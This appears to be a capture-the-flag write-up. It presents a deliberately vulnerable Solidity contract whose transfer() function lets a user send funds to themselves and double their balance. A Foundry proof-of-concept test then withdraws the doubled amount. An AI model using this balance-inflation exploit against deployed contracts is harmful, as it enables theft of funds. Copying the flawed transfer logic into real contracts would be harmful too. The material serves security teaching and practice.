 # TemporaryVariable

*“Often something that appears safe isn't safe at all.”*

## Objective of CTF

Your goal is to exploit a vulnerability in the contract to remove exactly double the amount you supply. Provide your solution as

user1 that supplies 100 units to the contract and removes 200 units . Use the foundry setup given below.

---

Contract Code:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract factory {
    address public owner;
    constructor() {
        owner = msg.sender;
    }
    modifier onlyOwner() {
        require(msg.sender == owner, "you are not owner");
        _;
    }
    modifier isUserBlacklisted(address user) {
        require(_blacklist[user] == false, "user is blacklisted");
        _;
    }

    mapping(address => uint256) public _balances;
    mapping(address => bool) public _blacklist;

    function blacklistuser(address user) public onlyOwner {
        uint256 balance = _balances[user];
        require(balance != 0, "user does not exist");
        _blacklist[user] = true;
    }

    function whitelistuser(address user) public onlyOwner {
        bool blacklist = _blacklist[user];
        require(blacklist == true, "user is not blacklisted");
        _blacklist[user] = false;
    }

    function supply(address _user, uint256 _amount) public {
        require(_user == msg.sender, "unauthorized");
        require(_balances[_user] == 0, "already exists");
        require(_amount > 0, "invalid amount");
        _balances[_user] += _amount;
        _blacklist[_user] = false;
    }

    function checkbalance(address _user) public view returns (uint256) {
        return _balances[_user];
    }

    function transfer(address _from, address _to, uint256 _amount) public isUserBlacklisted(_from) {
        uint256 frombalance = _balances[_from];
        uint256 tobalance = _balances[_to];
        require(_from == msg.sender, "unauthorized");
        require(frombalance != 0, "no balance");
        require(tobalance != 0, "unknown user");
        require(_amount <= frombalance, "not enough balance");

        _balances[_from] = frombalance - _amount;
        _balances[_to] = tobalance + _amount;
    }

    function remove(address _from, uint256 _amount) public isUserBlacklisted(_from) {
        require(_from == msg.sender, "unauthorized");
        uint256 _accountbalance = _balances[_from];
        require(_amount <= _accountbalance, "not enough balance");

        if (_amount == _accountbalance) {
            delete _balances[_from];
            delete _blacklist[_from];
        } else {
            _accountbalance -= _amount;
            _balances[_from] = _accountbalance;
        }
    }
}
```



## The Attack

The vulnerability lies in the **transfer()** function. It doesn't comparing the "**_to**" and "**_from**" addresses. If the function is called with the same address for both "**_to**" and "**_from**" along with the already supplied amount, the transaction get succeeded and the balance is doubled. This doubled amount can be removed using **remove()** function.

### STEPS
1. call **supply()** to add balance.
2. call **transfer()** with **msg.sender** address as **_to** and **_from** addresses and **_amount** as the balance amount. This transaction will double the balance amount.
3. call **remove()** to remove the doubled balance.

## Proof of Concept

The Foundry setup is as follows:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "src/factory.sol";

contract testfactory is Test, factory {
    factory _factory;
    address user1 = 0x5B38Da6a701c568545dCfcB03FcB875f56beddC4;
    address user2 = 0xAb8483F64d9C6d1EcF9b849Ae677dD3315835cb2;

    function setUp() public {
        vm.prank(owner);
        _factory = new factory();

        vm.deal(user1, 100);
        vm.deal(user2, 100);

        vm.prank(user1);
        _factory.supply(user1, 100);
        vm.prank(user2);
        _factory.supply(user2, 100);
    }

    function testFactory() public {
        vm.prank(user1);

        //solution

        // 1. Double the balance
        _factory.transfer(user1, user1, 100);
        uint256 newbalance = _factory.checkbalance(user1);
        assertEq(newbalance, 200);

        // 2. Remove the balamce
        vm.prank(user1);
        _factory.remove(user1, newbalance);
        newbalance = _factory.checkbalance(user1);
        assertEq(newbalance, 0);
    }
}
```
